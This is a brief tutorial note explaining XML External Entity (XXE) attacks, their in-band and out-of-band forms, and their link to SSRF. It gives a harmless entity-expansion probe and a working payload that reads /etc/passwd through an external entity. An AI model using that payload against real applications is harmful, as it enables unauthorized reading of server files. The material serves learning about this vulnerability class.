 This vulnerability abuses features of ***XML parsers/data***. 

It often allows an attacker to interact with any backend or external systems that the application itself can access and can allow the attacker to read the file on that system.

An XXE attack can be used to perform ***Server-Side Request Forgery (SSRF)*** inducing the web application to make requests to other applications.

**There are 2 types of XXE attacks:**

1) ***In-band XXE attack:*** In this type the attacker can receive an immediate reponse to the XXE payload.
2) ***Out-of-band XXE attack:*** In this type no immediate reponse is received from the web application and the attacker has to reflect the output of their XXE payload to some other file or their own server. 
***
# XXE attack payloads:

We can use the following payload to check whether a web application is vulnerable to XXE attack: 

```XML
`<!DOCTYPE replace [<!ENTITY name "feast"> ]>    
	<userInfo>     
		<firstName>falcon</firstName>     
		<lastName>&name;</lastName>    
	</userInfo>`
```

**NOTE:** After entering the above code into a search field, if the name "falcon feast" pops up on the web application then the application is vulernable to XXE.

If the web application is vulnerable to XXE, then you can try reading files within the web root directory which are not accessible through the browser. You can do this using:

```XML
<?xml version="1.0"?>   
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>   
<root>&read;</root>`
```
